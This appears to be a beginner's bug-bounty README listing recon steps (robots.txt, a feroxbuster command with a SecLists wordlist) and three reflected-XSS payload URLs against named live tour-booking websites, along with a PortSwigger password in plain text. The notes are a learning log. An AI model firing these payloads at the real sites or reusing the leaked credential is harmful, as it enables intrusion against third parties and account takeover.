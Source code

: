 # bug-bounty
## Port Swigger Password: 2\!5x|6YWwd5Pn&9^5W8W\^BNY)B5-SM
## 1 - test endpoints (robots.txt)
## 2 - use a automation tool can test endpoints and paths like feroxbuster 
## 3 - feroxbuster command to run is "feroxbuster --url <Link> -w common.txt
## 4 - the common txt you will find him at https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content > common.txt

# my Steps at learn

## 1 - learn how can i edit the proxy setting at burbe suite 
## 2 - learn how can i take admin permession at the site with IDOR LAB

# my first bug bounty is a XSS at https://www.egypttoursportal.com/search-tours/?s=%22%3E%3Cscript%3Ealert(%22hello%22)%3C/script%3E  >>  8/1/2025
# my secound bug bounty is a XSS at search https://www.luxorandaswan.com/search/?keyword=%3Cscript%3Ealert(%22hello+world%22)%3C/script%3E >> 9/1/2025
# Memphis >> https://www.memphistours.com/Search?q=%3E%3Cscript%3Ealert(%22hello%20world%22)%3C/script%3E
